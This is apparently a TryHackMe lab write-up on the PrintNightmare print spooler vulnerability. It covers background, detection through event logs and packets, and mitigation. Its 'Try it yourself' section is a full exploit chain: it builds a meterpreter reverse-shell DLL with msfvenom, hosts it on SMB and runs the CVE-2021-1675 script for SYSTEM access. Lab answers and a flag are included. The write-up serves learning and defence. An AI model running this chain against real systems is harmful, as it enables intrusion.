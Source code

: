 # PrintNightmare - Medium

1. [Windows Print Spooler Service](#windows-print-spooler-service)
2. [Remote Code Execution Vulnerability](#remote-code-execution-vulnerability)
3. [Try it yourself](#try-it-yourself)
4. [Indicators of Compromise](#indicators-of-compromise)
5. [Detection: Windows Event Logs](#detection-windows-event-logs)
6. [Detection: Packet Analysis](#detection-packet-analysis)
7. [Mitigation: Disable Print Spooler](#mitigation-disable-print-spooler)

## Windows Print Spooler Service

* Print spooler service - manages printing processes like queueing and scheduling; enabled by default in all Windows clients & servers.

* DCs (Domain Controllers) use print spooler service for printer pruning (removing printers that are not used anymore but are objects in AD).

```markdown
1. Where would you enable or disable Print Spooler Service? - Services
```

## Remote Code Execution Vulnerability

* CVE-2021-34527 (PrintNightmare) - RCE vulnerability; attacker can remotely inject malicious DLL & exploit it to get SYSTEM privileges.

* CVE-2021-1675 - another exploit related to print spooler; attacker needs direct/local access to machine.

```markdown
1. Provide the CVE of the Windows Print Spooler Remote Code Execution Vulnerability that doesn't require local access to the machine. - CVE-2021-34527

2. What date was the CVE assigned for the vulnerability? - 07/02/2021
```

## Try it yourself

```shell
#follow initial setup from TryHackMe
cd Desktop/pn

git clone https://github.com/tryhackme/CVE-2021-1675.git
#download exploit files

git clone https://github.com/tryhackme/impacket.git
#download impacket from THM repo

cd impacket

#install impacket
python setup.py install

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.66.2 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll
#create malicious dll

msfconsole -q

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST 10.10.66.2

set LPORT 4444

run -j
#run exploit as a job

jobs
#it is running in background

#now host malicious dll in SMB share on attacker machine
smbserver.py share /root/Desktop/share/ -smb2support
#share to be accessed is at \\10.10.66.2\share\malicious.dll

rpcdump.py @10.10.102.16 | egrep 'MS-RPRN|MS-PAR'
#check if victim fits criteria for exploit

cd CVE-2021-1675/

python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.102.16 '\\10.10.66.2\share\malicious.dll'
#run exploit
#Finance-01.THMdepartment.local is name of DC and domain
#along with credentials of low privilege Windows user

#now we have a Meterpreter shell
cat C:\\Users\\Administrator\\Desktop\\flag.txt
```

```markdown
1. What is the flag residing on the Administrator's Desktop? - THM{SiGBQPMkSvejvmQNEL}
```

## Indicators of Compromise

* Search for ```spoolsv.exe``` process launching ```rundll32.exe``` as a child process without any command-line arguments.

* Monitor for DLLs dropped in these folders - ```%WINDIR%\system32\spool\drivers\x64\3\``` and ```%WINDIR%\system32\spool\drivers\x64\3\Old\```

* Check for suspicious ```spoolsv.exe``` child processes.

* Log registry changes and check for print driver 'QMS 810'.

* Search for public DLLs, such as ```MyExploit.dll```, ```evil.dll```, ```addCube.dll```, ```mimilib.dll```, etc.

```markdown
1. Provide the first folder path where you would likely find the dropped DLL payload. - C:\Windows\System32\spool\drivers\x64\3

2. Provide the function that is used to install printer drivers. - pcAddPrinterDriverEx()

3. What tool can the attacker use to scan for vulnerable print servers? - rpcdump.py
```

## Detection: Windows Event Logs

* Logs related to Print Spooler activity are:

  * Microsoft-Windows-PrintService/Admin
  * Microsoft-Windows-PrintService/Operational

* Some events of interest can be viewed in Event Viewer in:

  * Microsoft-Windows-PrintService
  * Microsoft-Windows-SMBClient
  * Windows System
  * Microsoft-Windows-Sysmon

```markdown
1. Provide the name of the dropped DLL, including the error code. - svch0st.dll,0x45A

2. Provide the event log name and the event ID that detected the dropped DLL. - Microsoft-Windows-PrintService/Admin,808

3. Find the source name and the event ID when the Print Spooler Service stopped unexpectedly and how many times was this event logged? - Service Control Manager,7031,1

4. Provide the log name, event ID, and destination port. - Microsoft-Windows-Sysmon/Operational,3,4747

5. Provide the attacker's IP address and the hostname. - 10.10.210.100,ip-10-10-210-100.eu-west-1.compute.internal

6. Provide the full path to the dropped DLL and the earliest creation time in UTC. - C:\Windows\System32\spool\drivers\x64\3\New\svch0st.dll,2021-08-13 17:33:37.282
```

## Detection: Packet Analysis

```markdown
1. What is the host name of the domain controller? - WIN-1O0UJBNP9G7

2. What is the local domain? - printnightmare.local

3. What user account was utilized to exploit the vulnerability? - lowprivlarry

4. What was the malicious DLL used in the exploit? - letmein.dll

5. What was the attacker's IP address? - 10.10.124.236

6. What was the UNC path where the malicious DLL was hosted? - \\10.10.124.236\sharez

7. What was the associated protocol? - SMB3
```

## Mitigation: Disable Print Spooler

* Check if Print Spooler service is running:

```ps
Get-Service -Name Spooler
```

* Disable Print Spooler service:

```ps
Stop-Service -Name Spooler -Force

Set-Service -Name Spooler -StartupType Disabled
```

* If print spooler service cannot be disabled, disable inbound remote printing through Group Policy.

```markdown
1. Provide two ways to manually disable the Print Spooler Service. - PowerShell, Group Policy

2. Where can you disable the Print Spooler Service in Group Policy? - Computer Configuration / Administrative Templates / Printers

3. Provide the command in PowerShell to detect if Print Spooler Service is enabled and running. - Get-Service -Name Spooler
```
